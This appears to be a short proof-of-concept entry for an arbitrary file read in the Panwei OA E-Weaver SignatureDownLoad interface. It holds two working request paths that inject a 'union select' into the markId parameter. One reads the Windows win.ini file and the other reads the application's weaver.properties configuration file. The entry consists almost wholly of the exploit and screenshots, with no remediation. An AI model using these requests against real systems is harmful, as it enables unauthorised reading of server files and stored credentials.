 # Panwei OA E-Weaver SignatureDownLoad Arbitrary file reading vulnerability

## Vulnerability Description

The Panwei OA E-Weaver SignatureDownLoad interface has a vulnerability to read any file on the server. The attacker can read any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA E-Weaver </span>

## Network surveying and mapping



## Vulnerability reappears

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656689079056-8b37542f-8e1a-4558-a1b2-d863bbb2a136.png)

Verify POC

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656689121217-b38a805a-342b-48d1-9b86-9655dccef5cd.png)

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656689196769-3dd2c9b1-43e6-4677-b0be-b170fba04a4b.png)